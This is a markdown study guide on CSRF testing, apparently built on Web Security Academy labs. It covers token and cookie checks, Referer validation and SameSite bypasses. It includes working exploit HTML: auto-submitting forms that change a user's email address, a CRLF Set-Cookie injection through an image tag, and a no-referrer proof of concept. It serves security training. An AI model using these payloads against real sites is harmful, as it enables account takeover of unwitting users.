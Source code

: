 # CSRF (Cross-Site Request Forgery) Attack Guide

---

## Index

1. [Conditions for a CSRF Attack](#conditions-for-a-csrf-attack)
2. [Testing CSRF Token](#testing-csrf-token)
3. [Testing CSRF Token and CSRF Cookies](#testing-csrf-token-and-csrf-cookies)
   - [Check if CSRF Token is Tied to the CSRF Cookie](#check-if-csrf-token-is-tied-to-the-csrf-cookie)
4. [Exploitation Techniques](#exploitation-techniques)
   - [HTML Exploit Example](#html-exploit-example)
   - [Image-based CSRF Cookie Injection](#image-based-csrf-cookie-injection)
5. [Testing the Referer Header for CSRF Attack](#testing-the-referer-header-for-csrf-attack)
   - [Exploit for Referer Header Validation (Case 1)](#exploit-for-referer-header-validation-case-1)
6. [Bypassing SameSite Lax Policy](#bypassing-samesite-lax-policy)

---

## 1. Conditions for a CSRF Attack

For a CSRF attack to be possible, three key conditions must be in place:

1. **A relevant action**  
2. **Cookie-based session handling**  
3. **No unpredictable request parameters**

---

## 2. Testing CSRF Token

When testing a CSRF token, follow these steps:

1. **Remove CSRF parameter/token**: Check if the application accepts requests without the token.
2. **Change request method (POST to GET)**: Test if changing the method affects token validation.
3. **Exchange CSRF token with another user**: Verify if tokens are user-specific by testing another user’s token.

---

## 3. Testing CSRF Token and CSRF Cookies

### 3.1 Check if CSRF Token is Tied to the CSRF Cookie

1. **Submit an invalid CSRF token**: See if the application accepts it.
2. **Submit a valid CSRF token from another user**: Check if the token is user-specific.
3. **Submit a valid CSRF token and CSRF cookie from another user**: Test if both token and cookie are required to match.
4. **Assign a random value to token + cookie**: In a duplicated token cookie, try setting the same random value to both.

---

## 4. Exploitation Techniques

To exploit a CSRF token + cookie mechanism, two actions are required:

1. **Inject a CSRF cookie into the user's session** (via HTTP header injection)
2. **Send a CSRF attack to the victim**

### 4.1 HTML Exploit Example

```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

### 4.2 Image-based CSRF Cookie Injection

```html
<img src="https://0a5000e9036c9fa3820d15c300a500d4.web-security-academy.net/?search=asdasfa%0d%0aSet-Cookie:%20csrf=testing;%20SameSite=None" onerror="document.forms[0].submit()">
```

---

## 5. Testing the Referer Header for CSRF Attack

1. **Remove the Referer header**: See if the application still processes the request without it.
2. **Validate which part of the Referer header is used**: Identify which part is validated by the application.

   - **Example 1**: `Referer: https://attacker.com/?vulnerable-web.net`
   - **Example 2**: `Referer: http://vulnerable-website.com.attacker-website.com/csrf-attack`

### 5.1 Exploit for Referer Header Validation (Case 1)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<head>
<meta name="referrer" content="no-referrer">
</head>
  <body>
    <form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

## 6. Bypassing SameSite Lax Policy

Key Note:
```plaintext
Set-Cookie: session=bciZoELY2ukJUUOj1zJ7wcAGdYXtvq3C; Secure; HttpOnly; SameSite=Strict
```

### Steps

1. **Change request method from POST to GET**: Test if SameSite policy can be bypassed with a GET request.
2. **Via cookie refresh**: Simulate a refresh to force SameSite cookie behavior.

--- 
```
